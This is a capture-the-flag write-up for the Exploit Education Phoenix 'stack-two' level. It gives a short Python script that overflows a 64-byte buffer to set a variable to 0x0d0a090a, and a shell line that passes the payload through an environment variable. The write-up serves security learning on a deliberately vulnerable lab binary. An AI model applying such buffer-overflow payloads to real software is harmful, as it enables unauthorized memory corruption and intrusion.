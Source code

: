 # stack-two
#### Script
```python
import sys 

value = 0x0d0a090a
inject = (b'A'*64) + value.to_bytes(4,'little')

sys.stdout.buffer.write(inject)
```
#### Analysis 
According to the challenge description, the *changeme* variable must be changed to **0x0d0a090a**. This is similar to the previous challenges, where we write enough data to overwrite the buffer and then put in our desired value. 

However, this challenge adds a new layer, as the input to the program is no longer taken from stdin, but from an [environment variable](https://www.geeksforgeeks.org/environment-variables-in-linux-unix/) called *ExploitEducation*. Knowing this, we must first set this variable in order to get *changeme* to our desired value. 

#### Solution
We use the script written above to set the environment variable in our .bashrc file.
```shell
...

export ExploitEducation=$(python3 /opt/phoenix/amd64/scripts/stack_two.py)

```
